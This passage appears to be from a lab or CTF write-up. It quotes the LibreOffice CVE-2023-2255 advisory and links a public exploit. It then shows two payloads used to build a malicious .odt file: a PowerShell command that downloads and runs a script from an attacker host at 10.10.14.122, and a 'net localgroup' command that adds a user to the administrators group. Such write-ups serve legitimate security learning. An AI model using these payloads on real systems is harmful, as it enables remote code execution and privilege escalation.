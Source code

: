 > CVE for libreOffice - CVE-2023-2255

```
LibreOffice supports "Floating Frames", similar to a html IFrame. The frames display their linked document in a floating frame inside the host document.

In affected versions of LibreOffice these floating frames fetch and display their linked document without prompt on loading the host document. This was inconsistent with the behavior of other linked document content such as OLE objects, Writer linked sections or Calc WEBSERVICE formulas which warn the user that there are linked documents and prompts if they should be allowed to update.

In versions >= 7.4.7 (and >= 7.5.3) the existing "update link" manager has been expanded to additionally control the update of the content of IFrames, so such IFrames will not automatically refresh their content unless the user agrees via the prompts.

Thanks to Amel Bouziane-Leblond for discovering this flaw.
```

### Exploit to LibreOffice

- [(GITHUB)CVE-2023-2255](https://github.com/elweth-sec/CVE-2023-2255)

> Follow the exploit instruction 

![](./IMG/52.png)

> Executing the PoC
> I tried to set the payload to the following, but failed 

```
python exp.py --cmd "powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.122/exp.ps1');" --output "exploit.odt"
```

> Then I set the payload as net command to add current user to high privilege group 

```
python CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'exploit.odt' 
```
